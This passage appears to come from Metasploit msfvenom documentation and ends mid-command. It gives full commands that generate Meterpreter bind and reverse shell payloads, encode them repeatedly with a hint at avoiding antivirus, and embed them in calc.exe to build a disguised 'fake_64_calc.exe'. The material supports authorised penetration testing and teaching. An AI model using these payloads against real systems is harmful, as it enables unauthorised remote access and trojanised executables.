 By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```plaintext
msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn’t really meant to be used a real AV evasion solution:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```

## How to avoid bad characters

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

## How to supply a custom template

By default, msfvenom uses templates from the msf/data/templates directory. If you’d like to choose your own, you can use the -x flag like the following:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
```

Please note: If you’d like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:

```plaintext
msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

## How to chain msfvenom output

The old `msfpayload` and `msfencode` utilities were often chained together in order layer on multiple encodings. This is possible using `msfvenom` as well:

```plaintext
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
```
